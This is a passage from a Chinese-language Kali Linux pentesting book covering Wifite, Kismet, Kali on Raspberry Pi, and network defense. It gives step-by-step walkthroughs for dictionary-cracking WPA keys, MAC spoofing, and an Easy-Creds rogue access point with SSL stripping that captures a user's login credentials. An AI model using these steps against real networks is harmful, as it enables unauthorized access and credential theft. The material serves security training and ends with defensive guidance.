如你所见，Wifite 成功破解了 WEP 密钥，在这种情况下为 "1234567890"。

## 更高级的 WiFi 攻击

WiFi 有一些命令行开关，允许我们定制攻击。例如，如果我们知道 Wi-Fi 路由器的名称，可以使用 `-e "AP Name"` 开关来指定特定的 Wi-Fi 路由器。

我们还可以通过字典文件 `--dict/Path` 开关包含字典文件来加速破解 WPS 密码。

尝试结合它们，使用 RockYou 密码文件来攻击特定的 Wi-Fi 网络：

```
root@kali:~ # wifite -e "Vulnerable" --dict /usr/share/wordlists/rockyou.txt
```

## 结论

在本章中，我们演示了如何使用 `Wifite` 程序通过易于使用的菜单驱动系统来发现和测试网络安全。我们还讨论了如何使用 WiFi 命令行开关来自定义测试。

`Wifite` 是一个精简程序，允许你非常快速地执行无线网络渗透测试。

## 第28 章 – Kismet

### 简介

如果你需要扫描公司以查看实际上有哪些 Wi-Fi 网络，并需要对此创建一个报告，`Kismet` 是一个很棒工具。

`Kismet` 在发现和记录接入点及客户端方面表现出色，并以几种不同的格式记录它们。

## 使用 Kismet 进行扫描

Kali Linux>Wireless Attacks>Wireless Tools>Kismet

- 1. 从菜单启动 `Kismet` 以查看其选项，或者直接在终端提示符输入“`kismet`”。


- 2. 点击“Kismet running as root”消息上的“OK”。

- 3. 点击“Yes”启动服务器。


- 4. 在 Server Options 屏幕上，你可以直接采用默认值并选择 start。

- 5. 控制台窗口将打开，一秒钟后会弹出一个屏幕要求你选择捕获接口。在“Add a Source Now”提示处点击“Yes”。

- 6. 在“Add Source”弹出窗口中，在 Interface 行输入你的无线卡接口名称。你可以使用“`wlan0`”，或者如果你的 Wi-Fi 卡已处于监控模式，甚至可以使用“`mon0`”。可选地为你的接口添加一个描述性名称。然后点击“Add”：


- 7. 完成！`Kismet` 开始记录它看到的所有流量。只需点击“Close Console Window”按钮关闭控制台屏幕即可查看图形界面。

- 8. Console窗口关闭，我们现在将看到主程序界面：


起初看起来可能有点混乱，但基本上检测到的网络和设备出现在左上角。底部图表显示检测到的流量，黄色代表包，红色代表数据。

你可以使用“View”和“Sort”菜单选项来决定在屏幕上显示什么数据以及如何排序。尝试不同的 Sort 选项以熟悉它。

`Kismet` 运行得越长，你对周围环境的了解就越清晰。

| 附加信息 |
| :--- |
| 你可能听过“War Driving”（无线入侵）这个术语。基本上意思是开着带有 Wi-Fi 监控程序的汽车，获取区域内的 Wi-Fi 信息。`Kismet` 是一个经常用于无线入侵的程序。 |
| 在开车时只需在笔记本电脑上运行 `Kismet`。添加一个 GPS 来源（如智能手机），`Kismet` 就会为发现的每个网络添加 GPS 位置。完成后，你可以创建一张漂亮的区域 Wi-Fi 网络地图。 |

- 9. 当你觉得 `Kismet` 运行了足够的时间后，点击“Kismet”菜单选项然后选择“Quit”。

- 10. 系统会询问你是否停止 Kismet Server，点击“Kill”：


`Kismet` 将停止并回到终端提示符。太好了，我们现在做什么？如果你查看 shutdown 消息，你会看到创建几个 Kismet 日志：

```
[SERVER] INFO: Closed pcapdump log 'Kismet-20130909-09-56-58-1.pcap', 3
[SERVER] INFO: Closed netml log 'Kismet-20130909-09-56-59-1.netml', 16
[SERVER] INFO: Closed netxt log 'Kismet-20130909-09-56-59-1.netxt', 16
[SERVER] INFO: Closed gpsml log 'Kismet-20130909-09-56-59-1.gpsml', 0
[SERVER] INFO: Closed alert log 'Kismet-20130909-09-56-59-1.alert', 0
```

在 Kali 中，`Kismet` 将这些文件导出到根目录。**Pcap** 包含了整个会话的数据包捕获

- **Alert** 包含了任何告警

- **Gpsxml** 包含了使用了 GPS 来源的数据

- **Nettxt** 包含了良好的文本输出

- **Netxml** 包含了 XML 格式的所有数据

注意第一个文件是 pcap 文件。这意味着我们可以在 `Wireshark` 等程序中打开文件并查看 `Kismet` 检测到的每个 beacon 帧。

- 1. 在终端提示符启动 `Wireshark` ("`wireshark`")。

- 2. 加载 pcap 文件。点击“File”然后“Open”，选择根目录下的 pcapdump 文件并点击“Open。

- 3. pcap 文件将在 `Wireshark` 中打开，你可以查看所有的 beacon 帧：

| Time | Source | Destination | Protocol | Length | Info |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 0.000000 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1301; |
| 0.102497 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1302; |
| 0.204995 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1303; |
| 1.110394 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1310; |
| 1.121394 | Aust_C | Broadcast | 802.11 | 114 | Data, SN1312, flags: - |
| 1.331294 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1314; |
| 2.257283 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1315; |
| 2.258233 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1324; |
| 2.257627 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1326; |
| 12.560000 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1327; |


| 11.654328 | Aust_C | Horizontal_Da | 802.11 | 62 | 62 QoS function (No data), |
| 12.575516 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1339; |
| 15.837180 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1363; |
| 15.399388 | Aust_C | Broadcast | 802.11 | 245 | Beacon frame, SN1364; |

## 分析数据

花一点时间看看我们收集的数据。进入根目录并使用 `"ls"` 命令列出文件：

```
root@kali#$ ls
kismet-20130909-09-56-58-1.pcap kismet-20130909-09-56-59.txt kismet-20130909-09-56-59-1.alert kismet-20130909-09-56-59-1.xml
```

这就是有趣的地方。文件名的时间戳在你多次运行 `Kismet` 时很有帮助。

## Kismet 文本文件分析

最后让我们文本文件。

- 1. 在你喜欢的文本编辑器中打开文本文件，或者你可以直接 `cat` 该文件。为了演示，我将使用 Kali 自带的 Leafpad。


文本文件给了我们大量信息，如上所示列出了每个 Wi-Fi 网络。它将每个接入点标记为网络，然后如下列出连接到它的每个客户端：

```
Client 1: MAC
1C:30:8A:00:00:00
Manuf: Hewlett-Packard
First: Mon Sep 9
10:09:16 2013
Last: Mon Sep 9
10:09:16 2013
Channel: 7
```

## 结论

我们只需通过运行 `Kismet` 并分析日志，就能学习到关于周围网络的很多知识。

通过分析，日志可以向我们展示客户端是否连接了它们不应该连接的无线网络，还可能揭露你组织中不应激活的流氓 Wi-Fi 路由器。

最后，我们没有提到的 XML 日志可以被其他程序用于创建交互式地图或图表。

# 第 29 章 – 简单凭据 (Easy Creds)

## 引言

`Easy-Creds` 是一个优秀的菜单驱动程序，允许你将无线网卡转换为完整的无线接入点攻击平台。`Easy-Creds` 会创建一个伪造接入点（rogue access point），然后以中间人攻击的形式运行，分析用户的数据流，并从流中提取账户信息，包括在安全网站上输入的密码。

它能够通过使用广流行的程序 `SSL strip` 移除任何 SSL 加密，从而恢复安全账户。基本上，`SSL strip` 会代表浏览器捕获并管理 HTTPS SSL 通信，将用户的会话降级为普通的 HTTP 连接。

这样，任何账户信息在被转发到 SSL 加密网站之前都可以被捕获并读取。

## 安装 Easy-Creds

`Easy-Creds` 虽然是 BackTrack 5 的一部分，但在 Kali 中并非默认安装。我们将使用作者的安装脚本安装 easy-creds。由于它不是从 Kali 仓库安装的，它可能会破坏其他内容，*请根据你的自行决定安装*。

- 1. 从 `http://code.google.com/p/easy-creds/downloads/list` 下载。

- 2. 使用命令解压文件：`tar -xvf easy-creds-3.8-DEV.tar.gz`

- 3. 进入新创建的 *easy-creds* 目录。

- 4. 如果你需要，输入 `cat README` 读取安装说明。

- 5. 输入 `sudo /installer.sh` 运行安装脚本，你将看到主安装界面：

```
Version 3.7 - Garden of Your Mind
Installer
请选择要安装 easy-creds 的操作系统
1. Debian/Ubuntu 及其衍生版本
2. Red Hat or Fedora
3. Microsoft Windows
4. Exit
Choice: _

KALI LINUX
你变得越安静，就越能听到声音
```

- 6. 选择数字 1

- 7. 随后你会被要求选择安装目录，我直接使用了默认值：

```
请提供你想要放置 easy-creds 文件夹的路径.[/opt] :
[*] 正在为 Debian/Ubuntu 安装依赖...
[*] 正在运行 'updateddb'
[-] 未安装 cmake，将尝试安装...
```

安装程序现在将检查已安装的进程，并尝试安装和配置 Easy-Creds 运行所需的许多支持程序：

```
[+] 正在运行 'updateddb'
[-] 未安装 cmake，将尝试安装...
[+] 在你的系统中找到 gcc
[+] 在你的系统中找到 g++
[+] 在你的系统中找到 subversion
[+] 在你的系统中找到 wget
[-] 未安装 libssi-dev，将尝试安装...
```

这可能需要一段时间时间，取决于你已经安装了哪些工具。完成后，你应该会看到像下面的提示信息：

```
[+] 已安装补丁后的 freerad 服务器
[+] 在你的系统中找到 asleep
[+] 在你的系统中找到 metasploit
[+] 再次运行 'updateddb' 因为我们安装了一些新东西
...happy hunting!
```

## 创建具有 SSL strip 能力的伪造 AP

现在让我们启动 easy-creds 并创建一个伪造的接入点。

- 1. 要运行程序，只需在终端提示符输入 `easy-creds`：

```
e a s y - c r e d s
Version 3.8-dev - Garden of New Jersey
任何时候按 ctrl+c 可取消并返回主菜单
1. 前提条件与配置
2. 毒攻击
3. FakeAP 攻击
4. 数据审查
5. 退出
9. 当前中毒会话
Choice: 
```

- 2. 选择选项 3，`FakeAP Attacks`。

- 3. 然后选择选项1，`FakeAP Attack Static`：

```
任何时候按 ctrl+c 可取消并返回主菜单
1. 静态 FakeAP 攻击
2. EvilTwin FakeAP 攻击
3. Karmasploit 攻击
4. FreeRadius 攻击
5. DOS AP 选项
6. 上级菜单
Choice: 
```

- 4. 在 `Would you like to include sidejacking attack?（你想要包含会话劫持攻击吗？)` 输入 `N`。

- 5. 当被询问连接互联网的接口时输入 `eth0`：

```
Network interfaces:
eth0          00:0c:29:7c:c8:b      IP:192.168.1.36
wlan0         f8:d1:b3:f7:df
连接互联网的接口（例如 eth0）:
```

- 6. 输入你的无线网卡接口（通常是 `wlan0`）：

| 接口 | 芯片组 | 驱动 |
| --- | --- | --- |
| wlan0 | Atheros AR9271 | ath9k-dev [phy0] |

- 7. 现在为你的接入点输入一个名称，我选择了 `EvilWiFi`：

- 8. 选择一个广播通道，我选了 `4`：

```
Channel you like to broadcast on: 4
```

- 9. 现在你的无线网卡将进入监控模式，并创建一个监控接口。输入创建的接口（通常是 `mon0`）：

```
[*] Your interface has been placed in Monitor Mode
Enter your interface, (ex. mon0): ath9k-dev [phy0]mon0
```

- 10. 接下来将询问你是否要更改无线网卡的 MAC 地址。我选择了 `N`。

- 11. 最后，输入隧道接口，`at0`：

```
Enter your tunnel: at0
```

- 12. 在 `Do you have dhcp?（你有 dhcp 吗？）` 处回答 `N`。

- 13. 现在选择运行的网络范围，我选择了 `10.0/24`：

```
Network range for your interface: 10.0/24
```

- 14. Easy-Creds 现在将启动 DNS 服务器并显示 IP。输入 DNS 服务器地址：

```
The following DNS servers were found in /etc/resolv.conf:
=> 192.168.1.2
Enter the IP address: 8.8.8.8
```

这就完成了！Easy-Creds 现在拥有了所需的一切，并通过 SSL 启动 SSL 通信。

```
* Creating dhcp.conf to assign addresses to clients.
* Launching Airbase with your settings.
* Configuring iptables to handle traffic.
* Logging.
```

几秒钟后你将看到多个窗口打开。我们需要做的就是等待有人连接并浏览网页。

## 通过 SSL 恢复密码

当用户连接到我们的 Evil-Fi 网络时，可以通过我们的网卡访问互联网。下面的截图显示了一个用户通过 iPad 登录我们的 Live：


你可以从 Ettercap 屏幕看到，用户尝试用用户名 `cyberarms@live.com` 和密码 `password` 登录 Live。

- 1. 现在在主菜单选择选项 4，`Data Review`：

```
At any time, ctrlc to return to the main menu
1. Prerequisites & Configurations
2. Poisoning Attacks
3. FakeAP Attacks
4. Data Review
5. Exit
Q. Quit current poisoning session
Choice: 4
```

- 2. 选择数字 3，`Parse aftercap file for credentials`：

```
At any time, ctrl+c to cancel and return to the main menu
1. Parse SSLstrip for credentials
2. Parse diff file for credentials
3. Parse aftercap eci file for credentials
4. Parse freerradius file for credentials
5. Previous Menu
Choice: 3
```

- 3. 复制并粘贴为你提供的 Ettercap 路径：

```
At any time, ctrl+c to cancel and return to the main menu
ettercap logs in current folder:/opt/easy-creds/easy-creds-2013-10-09-1228/ettercap2013-10-09-1233.eci
Enter the full path to your aftercap eci log file: /opt/easy-creds/easy-creds-2013-10-09-1228/ettercap2013-10-09-1233.eci
```

你将看到 Ettercap 恢复的凭据：

```
etterlog 0.7.6 copyright 2001-2013 Ettercap Development Team
131.253.61.82 TCP 80 USER: cyberarms@live.com PASS: password INFO: htp
p://login.live.com/login.srf?wa=signini.0&psrv=11sct=13813365083&rver=6,1,620
6.0&up=BI_SSL_SHARED&replyhttps://mail.live.com/m&lc=1033i&id=648
```

# 第七部分 - 树莓派

## 第30 章 – 在树莓派上安装 Kali

## 资源

- Kali 树莓派 ARM 镜像 - `http://www.kali.org/downloads/`

- Win32 Disk Imager - `http://sourceforge.net/projects/win32diskimer/`

- Putty 下载 - `http://www.chiark.greenend.org/~sgtham/putty/download.html`

- Xming - `http://sourceforge.net/projects/xming/`

## 引言

在本章中，我们将学习如何在树莓派上安装 Kali Linux，通过 Windows 7 远程连接它，并使用它执行一些无线安全测试。

Kali Linux 是广流行的 Backtrack 渗透测试和安全平台的最新版本。它增加了许多更新和增强，使得 Kali 比以往任何时候都强大且易于更新。

（注意：我偶尔注意到，某些程序在 ARM 版本的 Kali 上无法从命令行提示符运行。你可能需要在它们的程序目录 `/usr/bin` 中执行它们。）

树莓派是一种廉价且功能齐全的“信用卡”大小电脑，共有两种型号。本文使用的新型“B”型号具有 512 MB RAM、视频输出、网口、音频接口和双 USB 端口，令人惊讶的是仅需约 35 美元（USD）。

Pi 拥有基于 ARM 的处理器，并预装了操作系统。但为 ARM 编译的其他操作系统也可以运行在树莓派上。

Offensive Security 的精英们为树莓派创建了 Kali Linux 镜像，因此安装变得再简单不过。你只需要一个树莓派、Kali 镜像和一张 SD 卡。我们将使用 Windows 系统将镜像写入 SD 卡，并通过 SSH 连接到树莓派。

> 提醒：如既往一样，永远不要连接或访问你没有明确许可访问的网络。这样做可能会导致你陷入法律麻烦，甚至可能入狱。

## 树莓派电源和内存卡

在开始之前，让我快速介绍一下树莓派的电源问题。树莓派通常不自带适配器。如果你使用的适配器电流不足，树莓派运行异常，特别是当你尝试插入 Wi-Fi 卡时。

制造商建议你使用 2 安培的电源。许多微 USB 适配器仅提供 1 安培或更少。我使用 Rockfish 的 2.1 安培适配器效果非常好。

Pi 同样不配备必需的 SDHC 内存卡。选择卡片时有一个简单的规则：越快越好。我使用了一张索尼 16GB 内存卡，标称传输率为 15MB/s。

卡上的任何数据将在安装期间被清除。

## 在树莓派上安装 Kali

让我们从下载并在树莓派上安装 Kali Linux 开始。请查看上文“资源”部分的软件下载 URL。

- 1. 将 Kali Linux 树莓派 ARM 镜像下载到你的 Windows 系统。

- 2. 镜像文件是压缩的，因此你需要解压。

- 3. 接下来，使用 Win32 Disk Imager 将镜像写入 SD 卡。

将 SD 卡插入 Windows 并运行 Disk Imager。指向你下载的 Kali 镜像并选择 SD 卡的驱动器器。

然后点击 `Write`（写入）：


Disk Imager 将将 Kali Linux 镜像写入你的 SD 卡。

- 4. 现在从 Windows 弹出 SD 卡并将其插入树莓派的 SD 卡槽。连接你的显示器、以太网线、键盘和鼠标。

- 5. 为树莓派接电，几秒钟后它将启动进入 Kali。

搞定！你现在有一个树莓派渗透测试平台了！

重启树莓派让它启动进入 Kali。在连接键盘和显示器运行 Pi 是一个很好的开始方式。在我们继续之前，你可能想尝试一下。

## 从 Windows 系统远程连接“无头”树莓派

你也可以在没有键盘和显示器的情况下“无头”运行树莓派。你可以通过局域网从 Windows 机器远程控制树莓派。如果你需要这样做，无头运行 Pi 有一些有趣的功能。

方法如下：

- 1. 为 Windows 下载 Putty。

- 2. 运行 Putty 并输入 Kali 系统的 IP 地址。如果你连接了键盘，可以通过输入 `ifconfig` 获取地址；如果你正在运行 Kali，则查看路由器提供的地址。我的 IP 地址是 `192.168.1.135`。

- 3. 确保输入了端口 `22`，并如图 2 所示选择 `SSH` 作为连接类型：

 图2：配置 Putty 连接树莓派

然后点击 `Open`。将被要求登录树莓派。如果是第一次，请使用 Kali 默认凭据。

**Username:** root

**Password:** root@192.168.1.135 Nov 11 16:44 armv6 Linux 3.6.0-PREEMPT armv6 GNU/Linux distribution with free software, root@kali~$ 搞定了！现在你可以从 Windows 系统远程在树莓派上运行任何需要的命令。

## 通过 Putty 远程查看图形程序

可以通过 Putty 运行任何文本程序，但如果你尝试运行图形程序将无法工作。如果使用 Windows 的 X Server Xming，我们远程连接上运行图形程序。

- 1. 仅下载并安装 Xming。


- 2. 当询问安装哪些组件时，点击“Don’t install SSH client”完成安装。

- 3. 现在再次打开 Putty 输入树莓派的 IP 地址和端口：


- 4. 在左侧展开 SSH 选项卡，然后如图所示点击 X11：


- 5. 启用 X11 转发并在显示位置输入“localhost:0”。

- 6. 启动 会话（确保 Xming 在后台运行）。你现在可以通过 SSH 连接远程查看图形程序了。

注意，“starts”命令在 Putty 上运行时可能无法正常工作。如果你确实启动了桌面并启用了 X11 转发，你只需要输入：

```bash
xfce4-session
```

这将在 X 上启动桌面会话，你可以在 Windows 系统上看到整个 Kali 桌面，如下所示：


虽然不需要桌面，但在许多情况下，直接从命令行运行命令比启动桌面简单得多。这样做可以节省树莓派的一些宝贵资源。

## 第31 章 – 在树莓派上的 WiFi 渗透

## 资源

- 验证过的树莓派（非 Kali）外设 - http://elinux.org/RPi_VerifiedPeripherals

## 使用树莓派进行基础 WiFi 渗透

在 Backtrack 5/Kali 中运行的大多数命令在树莓派上运行都没有问题。在 Pi 上使用 Kali 进行无线渗透测试效果非常好，非常有趣。

只需将 USB Wi-Fi 适配器插入 Pi。我使用了一个带天线的 TP-Link TL-WN722N Wi-Fi 适配器。

有一点，如果插入 Wi-Fi 适配器后没有启动，可能需要重启树莓派。

在命令行提示符输入“`ifconfig`”并检查你的 Wi-Fi 适配器是否列出。它应该显示为 `wlan0`。如果你没看到，输入“`ifconfig wlan0`”。然后再次运行“`ifconfig`”，它应该显示：

```
root@kali:~# ifconfig wlan0
root@kali:~# ifconfig
link encethernet  HWaddr: b8:127:
inet addr:192.168.1.135 Bcast:192.168.1.255 Mask:255.255.255.0
inet fe:b8:1ba27:ff45:fb64/64 Scope:link
UP BROADCAST MULTICAST MTU:1500  Metric:1 frame:0
RX packets:89 errors:0 dropped:0 overruns:0 carrier:0
TX packets:96 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueue:0
RX bytes:7943 (7.7 KiB) TX bytes:14104 (13.7 KiB)
link encapLocal Lookup
inet addr:127.0.0.1 Mask:255.255.255.0
UP BROADCAST MULTICAST MTU:1500  Metric:1 frame:0
wlan0
root@kali:~#
```

接下来看看我们的无线卡可以看到哪些网络：

- 输入“`iwlist wlan0 scanning`”:

```
kali@kali:~# iwlist scanning
Scan completed:
Cell 01:
  Address:
    Channel:6
    Frequency:2.437 GHZ (Channel 6)
    Quality:19/70 Signal level=-91 dBm
    Encryption:none
    ESSID:
    Bit Rate: 1 MB/s; 2 MB/s; 5.5 MB/s; 11 MB/s; 18 MB/s; 24 MB/s; 36 MB/s; 54 MB/s
    Bit Rate:9 MB/s; 12 MB/s; 48 MB/s
    Mode:Master
    Extra:0000001e7b4ac0fc
    Extra: Last beacon:690ms ago
    IE: Unknown:000409933063
    IE: Unknown:01082468b962430486c
    IE: Unknown:0301016
    IE: Unknown:2a01016
    IE: Unknown:2f0106
    IE: Unknown:32040c121860
    IE: Unknown:00d90910e2021802f00000000
    IE: Unknown:00180505f2021802f000003a4000027a4000042435e062322f00
Cell 02:
  Address:
    Channel:1
    Frequency:2.412 GHZ (Channel 1)
    Quality:41/70 Signal level=-69 dBm
    Encryption:none
    ESSID:
    Bit Rate:1 MB/s; 2 MB/s; 5.5 MB/s; 11 MB/s; 18 MB/s; 24 MB/s; 36 MB/s; 54 MB/s
    Bit Rate:9 MB/s; 12 MB/s; 48 MB/s
    Mode:Master
    Extra:0000000b8354a2ae183
    Extra: Last beacon:480ms ago
    IE: Unknown:00d1a00000000000000000000
IE: Unknown:01082468b962430486c
IE: Unknown:0301011
IE: Unknown:00040202030000
IE: Unknown:2a01010
IE: Unknown:2f01010
IE: Unknown:8f8f-11-6GFAZ Version 1
  Group Cipher: CCMP
  Pairwise Ciphers: (1) : CCMP
  Authentication Key Options: (1) : FSK
IE: Unknown:32040c121860
IE: Unknown:2d1af01d31f8ffffffff0000000000000000000000000000000
```

太棒了，看起来一切运行正常。现在让我们运行一些基础的 Aircrack-NG 工具。

首先，我们需要将无线适配器设置为监控模式（monitoring mode）。这是一个特殊的模式，允许我们捕获并查看无线信号。

- 输入“`airmon-ng wlan0 start`”

```
root@kali:~$ airmon-ng wlan0
usage: airmon-ng start <start|stop> <interface> [channel or frequency] wlan0
root@kali:~$ airmon-ng start wlan0

Found 1 processes that could cause trouble.
airodump-ng, airplay-ng or airmon-ng stops working after
a short period of time, you may want to kill (some of) them!

PID     Name
1482 dhclient
missing btime in /proc/stat

Interface   Chipset             Driver
wlan0       Atheros AR8271      ath9k - [phy0]
                            (monitor mode enabled on mon0)
```

这创建了一个名为“`mon0`”的新无线适配器。现在我们就可以使用此接口来捕获无线管理和控制帧了。

为了做到，我们需要一个数据捕获程序。你可以使用 `tcpdump -i mon0`。或者使用 `tshark`，它是 Wireshark 的文本版本。

但那样有什么趣呢？我喜欢图形化界面！

在运行 Xming 的情况下，你可以像往常启动 Wireshark，它会显示在你的 Windows 系统上。

- 1. 在命令行输入“`wireshark &`”。

- 2. 然后只需选择你的监控接口（`mon0`）并点击“Start”。


你现在能够捕获范围内的任何 Wi-Fi 控制包了：

### Wireshark 实验室

快速搜索探测响应（Probe Responses），你就可以看到任何“隐藏”Wi-Fi 接入点的 SSID。在 Wireshark 中，你会看到名为“Hidden”的隐藏接入点：

Probe Response SN=3521, FN=0, Flags=....C, BI=100, SSID=Hidden

你可以看到，隐藏你的无线名称并不是一种有效的安全手段。使用 `airodump-ng` 监控单个接入点并获取连接它的系统的 MAC 地址：

MAC 过滤同样无效：

```
airodump-ng -c (AP Wireless Channel) -a -bssid (MAC Address of AP) mon0
```

然后只需使用像 `macchanger` 的程序伪造 MAC 地址，就可以没有任何问题地连接。

## WEP 和 WPA/WPA2 破解

你可以使用 Aircrack-ng 工具手动尝试破解 WEP 和 WPA 密钥，但如果使用“Fern WiFi”，对新用户来说要简单得多。Fern 为 `airmon-ng` 提供了一个图形化界面，并包含了 WPS 保护攻击以及许多实用工具。

在 Kali 中启动 Fern：

- 1. 在命令提示符输入“`fern-wifi-cracker`”。

- 2. 只需选择你的接口并点击“Scan for Access Points”。稍后，检测到的 WiFi 或 WPA 路由器将出现：


- 3. 现在选择你想要攻击的 WiFi，将出现 AP 列表。我们将使用名为“Vulnerable Router”的 WPA 路由器：


- 4. 接下来选择“Attack”按钮，并选择一个字典文件（Fern 带有 `common.txt`）。

- 5. 最后点击“WiFi Attack”。

Fern 将从接入点取消客户端的认证（deauthenticate），当计算机尝试重新连接时，它会使用字典文件尝试破解密钥。

如果字典文件中包含密码，你应该看到：


**WPA Key: password** – 哇，并不是一种安全的明智方法。你绝对不希望这样的 AP 连接到你的网络。我们现在有了 WiFi 网络的访问密钥，根据测试需要，可以进一步渗透网络。

如上所述，MAC 过滤不是安全无线网络的有效措施。如果你查看“Handshake Captured”部分，你会发现 Fern 足够提供连接到 AP 的客户端 MAC 地址。

## 总结

在本节中，我们学习了如何在 Raspberry Pi 上安装和运行 Kali Linux。我们还学习了如何从 Windows 系统连接它，并使用 Fern 进行一些基本的无线测试。

希望我们证明了隐藏无线网络或 MAC 过滤并不是保护网络的有效手段。此外，Fern 破解可以处理任何受弱密码保护的 AP。

如果攻击者通过 WiFi 获取了你的网络权限，他们可以使用该脚点进一步攻击你的基础设施。对于中小企业、家庭或企业环境中的 RADIUS 服务器，使用复杂的 WPA2 密钥至关重要。你应该经常扫描网络，以确保没有非法的或“员工安装的”接入点。测试网络是否存在非法或安全性的接入点应该是公司安全流程的一部分。

虽然在 Raspberry Pi 上进行 Wi-Fi 测试对于大型公司可能意义不大，但这是一个非常有成本效益的解决方案。能够在信用卡大小的 $35 计算机上运行 Kali 并用它测试无线安全简直不可思议。对于专业渗透人员来说，这也可以是一个非常有趣的解决方案。Pi 配带两个 USB 适配器。如果配合电池电源，可以用于许多创意方式。

# 第八章 - 防御你的网络

# 章 – 网络防御与结论

## 资源

- 选择和保护密码 - http://www.us-cert.gov/ncas/tips/ST04-002

- 避免社交工程学和钓鱼攻击 - http://www.us-cert.gov/ncas/tips/ST04-014

- 在社交网站上保持安全 - http://www.us-cert.gov/ncas/tips/ST06-003

- 谨慎使用邮件附件 - http://www.us-cert.gov/ncas/tips/ST04-010

- 漏洞扫描器 - http://sectools.org/tag/vuln-scanners/

## 结论

我们在书中花了大量时间涵盖进攻安全技术。我们将通过对保护网络系统免受此类攻击的简要讨论结束结束。

我们将简要介绍：

- 补丁与更新

- 防火墙和入侵防御系统 (IPS)

- 反病毒软件/网络安全程序

- 限制服务与用户权限

- 使用脚本阻止程序

- 使用长复杂的密码

- 网络安全监控

- 日志记录

- 用户教育

- 扫描你的网络

- 最后，使用进攻安全

虽然没有系统可以保证 100% 安全，但通过这些技术，我们可以让系统变得更难破解。

## 补丁与更新

如果可能，请使用最新版本的操作系统。在具有互联网连接的环境中使用过旧的操作系统真的不是好主意。

如果你正在使用 Windows XP，我强烈建议升级到 Windows 7。微软对 Windows XP（以及 Office 2003）的官方支持将于 2014 年 4 月结束 ¹ 这意味着

不再接收安全更新且所有软件均已为最新版本。此外，还要确保 Adobe 产品、Java 和网络浏览器以及 Office 软件定期更新补丁。

确保你所有设备的硬件固件（尤其是面向互联网的设备：路由器、交换机、NAS、摄像头、嵌入式服务器设备等）都是最新的，并定期检查。

如果你处于大型企业环境中，千万不要完全信任自动化补丁更新管理系统。要定期手动检查重要系统。我曾见过多个企业服务器在自动安装关键服务包时报错，但补丁管理服务器却显示所有服务器已更新且无错误。

## 防火墙与 IPS

始终使用防火墙，不要在未使用防火墙的情况下将任何系统连接到实时互联网连接。对你的入站互联网连接进行防火墙防护，并确保每个独立系统都使用软件防火墙。

创建入站和出站规则策略以监控或控制进出你网络的信息。在最简单的层面上，阻止与你不开展业务的国家进行通信。更高级的系统允许你控制允许进出网络的数据类型和协议。

使用 Web 应用防火墙（WAF）来保护应用程序服务。尽管这些不能保证你能阻止所有针对 Web 应用程序的恶意攻击。安全专家强烈建议，即使部署了 WAF，也要确保你的 Web 应用程序编写安全并经过了漏洞测试。

入侵防御系统（IPS）是非常棒的，当它们用于网络安全监控类系统时（见下文主题）效果更好。

## 反病毒软件/网络安全程序

老实说，我对反病毒程序很纠结。虽然它们能阻止许多威胁，但在 20 年的计算机支持工作中，我也见过它们不断被绕过。

任何有决心的现代黑客都会进入你的公司以调查你使用的是哪种反病毒程序。然后他们将定制漏洞利用代码来绕过该品牌的杀毒软件。如果他们无法确定你在运行什么，就会选择一种可以绕过大多数主流杀毒软件的。

并不是所有的杀毒软件都是平等的。某些杀毒/网络安全程序在阻止看似流行的脚本威胁方面已经变得非常出色。

做些功课，了解顶级杀毒软件应对当前威胁的表现，然后选择一个最符合你公司需求的程序。

## 限制服务与权限级别

关闭服务器上不需要的网络服务和服务协议。攻击面越小越好。多年来，微软通过更改其服务器为此提供了帮助。

此外，要尽快让旧服务器下线。很多时候公司会一直让旧服务器在线，以防需要其中的某些东西，但随着时间的推移，它们要么被遗忘要么没有更新。

永远不要让普通用户在非管理任务中使用提升权限。严格限制“Root”和“Administrator（管理员）”级别的使用。在 Windows 系统上，将受攻击的管理员账户提升到神级的“System”级别账户几乎轻而易举。如果受攻击的账户只是“用户”级别，就会困难得多。

系统管理员在执行管理功能时应仅使用管理员级账户，然后切换回非管理员账户进行普通计算功能。

## 使用脚本拦截程序

许多现代在线威胁使用某种程度的 Web 脚本语言。使用像 Giorgio Maone 开发的 Mozilla 插件“NoScript”拦截程序是阻止许多威胁的简单方法。

NoScript 阻止脚本在你访问的任何新网站上自动运行。它还让你很容易允许某些脚本运行，或将某个网站完全加入白名单。

NoScript 还会记住你的设置，因此当你访问常用站点时，脚本会被自动拦截或允许。

我还喜欢由 José María Signanini 和 Felix Shnir 开发的 Mozilla 插件“Ghostery”。Ghostery 允许你阻止网站上的跟踪脚本、分析程序和不必要的广告。

最后，在可行的情况下启用网络浏览器的隐私功能。不要让它们存储密码或历史记录，并偶尔使用类似 `Bleachbit` 的程序清除浏览器缓存。

## 使用长且复杂的密码

这不言而喻，但不仅是你的计算机系统（以及在线设备），你所有的在线账户都要使用长且复杂的密码。密码越长越复杂，攻击者破解所需的时间越长。

结合大写字母、小写字母、数字和符号。


在最近的安全测试中，我发现客户使用姓名作为 Web应用程序管理员密码！我用于测试应用密码强度的程序在几秒钟内破解了它。

我的密码没有短于 15 个字符的，重要的更长。为每个在线账户使用不同的密码，这样如果其中一个被破解，攻击者也无法利用它访问你的其他账户。

## 网络安全监控

我是网络安全监控（NSM）的忠实粉丝。如果你在运行自己的网络却不知道那是什么，请离开并购买 Richard Belich 写的《网络安全监控之道：超越入侵检测》。

### NSM 是一种捕获你网络中所有流量（有时在网络多个点）并分析其是否存在入侵或异常的系统。

如果你认为自己负担不起 NSM 系统，请重新考虑。最常用的之一是免费的！

由 Doug Burks 创建的“Security Onion”是一个功能极其强大且丰富的 NSM，完全免费。你只需要一台性能尚可的电脑运行它、一个网络分流器和至少两个网卡。

Security Onion 允许你捕获网络流量并分析问题，并通过易于使用的界面通知你。

以下是 Security Onion 运行的几张截图。第一张显示了当我尝试运行 Backtrack 时触发的一系列警报。

注意会有多个“已知出口节点流量”警报。

